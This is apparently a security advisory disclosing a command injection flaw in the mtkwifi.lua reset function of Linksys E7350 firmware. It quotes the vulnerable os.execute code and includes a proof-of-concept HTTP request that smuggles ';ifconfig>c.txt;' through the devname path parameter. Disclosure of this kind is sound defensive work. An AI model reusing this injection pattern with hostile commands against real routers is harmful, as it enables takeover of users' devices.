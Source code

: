 # Command injection vulnerability in exec_reset_to_defaults_cmd function
### description
Vendor: linksys 

Version: linksysFW_E7350_V1.1.00.032_Prod_20220902_code.bin   

Detail: There is a command injection vulnerability in exec_reset_to_defaults_cmd function in mtkwifi.lua

```
local exec_reset_to_defaults_cmd = function (devname)
    if devname then
        os.execute("wifi reset "..devname)   ------------------------> here
    else
        os.execute("wifi reset")
    end
end

function reset_to_defaults(devname)
    mtkwifi.__run_in_child_env(exec_reset_to_defaults_cmd, devname)
    luci.http.redirect(luci.dispatcher.build_url("admin", "mtk", "wifi", "loading",mtkwifi.get_referer_url()))
end

```
the call chain is reset_to_defaults-->exec_reset_to_defaults_cmd
We use Burpsuite to attack, the effect is as follows.
![图片](https://github.com/user-attachments/assets/579c6f74-82c5-468a-bd7a-6ac56ca35b8e)






### poc
```
GET /cgi-bin/luci/admin/mtk/wifi/reset_to_defaults/;ifconfig>c.txt; HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 0


```
Here we set the arguments "devname" as ;ifconfig>c.txt;", and there will be a file named "c.txt" in "/"





